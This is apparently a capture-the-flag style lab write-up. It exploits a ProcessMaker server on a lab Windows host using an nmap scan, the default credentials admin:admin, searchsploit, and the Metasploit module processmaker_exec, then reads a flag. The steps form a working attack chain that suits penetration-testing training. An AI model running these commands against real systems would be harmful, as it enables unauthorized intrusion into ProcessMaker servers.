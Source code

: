 # 🔬Win Workflow Platform - MS

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Windows: Workflow Platform](https://attackdefense.com/challengedetailsnoauth?cid=1946)
>
> * Target IP: `10.0.28.252`
> * Exploit a vulnerable ProcessMaker server with **Metasploit**

```bash
nmap -sS -sV 10.0.28.252
```

```bash
Not shown: 990 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.2.23 ((Win32) PHP/5.2.14)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql              MySQL (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

#### Enumeration <a href="#enumeration" id="enumeration"></a>

* Explore the web application hosted on the web server, before running any vuln scanners
* Search the target IP `10.0.28.252` in browser.

<figure><img src="../../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

* View the web page source code. In this case no **version information** can be found.
* Search online for `ProcessMaker` [default credentials](https://wiki.processmaker.com/index.php/2.0/Login\_Settings)
  * `admin`:`admin`

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Exploitation <a href="#exploitation" id="exploitation"></a>

```bash
searchsploit ProcessMaker
# Try "ProcessMaker Open Source - (Authenticated) PHP Code Execution (Metasploit)"

cd Desktop
searchsploit -m 29325
less 29325.rb
rm 29325.rb
# In this case a Metasploit module will be used
```

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.0.28.252
workspace -a ProcessMaker
```

```bash
search ProcessMaker
use exploit/multi/http/processmaker_exec
options
set USERNAME admin
set PASSWORD admin
exploit
```

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

```bash
pwd
cd /
dir
cat flag.txt
```

{% hint style="success" %}
**Flag:** `a3dcb4d229de6fde0db5686dee47145d`
{% endhint %}
